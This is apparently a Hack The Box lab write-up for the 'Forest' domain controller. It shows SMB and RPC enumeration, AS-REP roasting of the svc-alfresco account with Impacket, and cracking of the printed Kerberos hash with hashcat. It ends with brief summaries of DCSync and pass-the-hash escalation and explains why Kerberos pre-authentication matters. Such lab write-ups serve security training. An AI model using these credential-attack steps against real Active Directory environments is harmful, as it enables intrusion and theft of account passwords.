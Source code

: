 # Forest

- [Forest](#forest)
  - [Recon](#recon)
  - [User Compromise](#user-compromise)
    - [Crack the Hash](#crack-the-hash)
    - [Kerberos Pre-auth](#kerberos-pre-auth)
  - [Privilege Escalation](#privilege-escalation)
  - [Root](#root)
  - [Resources](#resources)

## Recon

I started with nmap, and if the box names wasn't enough of a hint, surprise, It's a domain controller.

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ nmap -p- --min-rate=10000 -T5 -o nmap_all forest
```

![Alt text](../images/nmap-1.jpg "Nmap Output")

Next, I tried to enumerate all that is SMB.

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ nmap -p445 forest --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-services.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse
```

The shares were all of the standard Windows/DC shares and I didn't have access to any of them. I was able to get a list of groups and user accounts. 

![Alt text](../images/nmap-users.jpg "User snip")

The user account list contained a few interesting users:

| User                     | Flags                                                                          |
| ------------------------ | ------------------------------------------------------------------------------ |
| HTB\$331000-VK4ADACQNUCA | Password Expired, Account disabled, Password not required, Normal user account |
| HTB\andy                 | Password does not expire, Normal user account                                  |
| HTB\lucinda              | Password does not expire, Normal user account                                  |
| HTB\mark                 | Password does not expire, Normal user account                                  |
| HTB\santi                | Password does not expire, Normal user account                                  |

There were also several mailbox accounts for Exchange. 

But I still don't have anything useful to go off of. Next, I poked around with rpcclient.

```bash
┌──(milt0r㉿kali)-[~/htb/forest/ldap]
└─$ rpcclient -U "" -N 10.10.10.161
```

Here, I get a little different list. It includes **svc-alfresco** and **sebastien**.

```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Enumerate domain groups, and one of them stands out as interesting:

```bash
rpcclient $> enumdomgroups
group:[Privileged IT Accounts] rid:[0x47d]
```

Examine that group membership and it points me to "Service Accounts" which contains our service account. Seems to be what we're looking for. 

```bash
rpcclient $> querygroupmem 0x47d
        rid:[0x47c] attr:[0x7]
rpcclient $> queryuser 0x47c
result was NT_STATUS_NO_SUCH_USER
rpcclient $> querygroup 0x47c
        Group Name:     Service Accounts
        Description:
        Group Attribute:7
        Num Members:1
rpcclient $> querygroupmem 0x47c
        rid:[0x47b] attr:[0x7]
rpcclient $> queryuser 0x47b
        User Name   :   svc-alfresco
        Full Name   :   svc-alfresco
```

Next, I tried ldapdomaindump and ldeep. ldeep returned nothing, and ldapdomaindump encountered an exception that looks to be a [known issue](https://github.com/dirkjanm/ldapdomaindump/issues/26) with that tool and this box. 


From here I started scrolling through the PayloadsAllTheThings AD Attacks article looking for something useful that didn't require creds. Eventually, I landed on Impacket's **GetNPUsers.py.** If you read the section on that tool (link below), it coincidentally mentions svc-alfresco in the example. 

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ GetNPUsers.py htb.local/ -dc-ip 10.10.10.161
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2021-10-16 20:10:06.352042  2019-09-23 04:09:47.931194  0x410200
```

Great. 

## User Compromise

Next, I dump the TGT for the service account. 

```
┌──(tom㉿kali)-[~/htb/forest]
└─$ GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Cannot authenticate svc-alfresco, getting its TGT
$krb5asrep$23$svc-alfresco@HTB.LOCAL:e8cc9685bd277e4982cc42f992002af5$95ac8f4ac9f8a0473680e02b32c8675de7817e72e450b97b554970a617121328a6c011f69d59de9017d17eae21324e508f9ec09ecb2bace6c7cf962466704f5e003ea648d9f16dfec11c0f69a3af09254161f4ec6b85bacc6874f29e5d6b155f1bc4ef1b8e93cfe87c687cd182a9e15d80bb6cef6ce0912f584088bb192b0926421d60650d1ed86a47633d7ef3eceabf53820b44aa5174b0f17dbf66a2e28488fd87bedc6fa4b06968556bcbf6684c0e5093f9ea2fd9dd81de5ac3a5aa2fc095e2fc8420f77081cc6ecd9eeb7f68a88692c1d63d98445ba4001ba3c65fc2bf0327d82089120e
```

### Crack the Hash

I like putting my RTX 3080 to use, so I typically run hashcat on Windows. 

```powershell
PS D:\htb\tools\hashcat\hashcat-6.2.1> .\hashcat.exe -m18200 -a0 hash.txt D:\htb\tools\wordlists\rockyou.txt
hashcat (v6.2.1) starting...

$krb5asrep$23$svc-alfresco@HTB.LOCAL:e8cc9685bd277e4982cc42f992002af5$95ac8f4ac9f8a0473680e02b32c8675de7817e72e450b97b554970a617121328a6c011f69d59de9017d17eae21324e508f9ec09ecb2bace6c7cf962466704f5e003ea648d9f16dfec11c0f69a3af09254161f4ec6b85bacc6874f29e5d6b155f1bc4ef1b8e93cfe87c687cd182a9e15d80bb6cef6ce0912f584088bb192b0926421d60650d1ed86a47633d7ef3eceabf53820b44aa5174b0f17dbf66a2e28488fd87bedc6fa4b06968556bcbf6684c0e5093f9ea2fd9dd81de5ac3a5aa2fc095e2fc8420f77081cc6ecd9eeb7f68a88692c1d63d98445ba4001ba3c65fc2bf0327d82089120e:s3rvice
```

**svc-alfresco:s3rvice**

### Kerberos Pre-auth

I recall in my Active Directory days *rarely* seeing applications running on systems in enterprise enviorments that required this to be turned off for accounts. In all of the AD risk assessments I performed over the years, I think I saw just a handfull of environments with pre-auth disabled. Why's it important? 

**TL;DR:** It prevents offline attacks against the TGT. 

When pre-auth is enabled, the Key Distribution Center (KDC) challenges the client to use their password hash to encrypt a timestamp. If the KDC, having a copy of the user's password hash, can decrypt and validate that it's within the acceptable range (default +/- five minutes), it'll respond with the ticket-granting ticket (TGT). The TGT is encrypted with the user's password hash. The client can decrypt the TGT only if it has the password.

If we disable the pre-authentication requirement, the KDC returns the TGT to the caller. This means that any attacker can get the TGT and attempt to crack the password offline, which is what we accomplished here. 

## Privilege Escalation



> **Summary:** Leverage over-permissioned user to escalate privileges and dump NTDS password hashes via Mimikatz DCSync.

## Root

> **Summary:** Use stolen hashes and psexec.py to pass-the-hash and get Administrator shell. 

## Resources

- [PayloadsAllTheThings AD Attacks ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
- [LDAP Filter Ref](https://social.technet.microsoft.com/wiki/contents/articles/5392.active-directory-ldap-syntax-filters.aspx)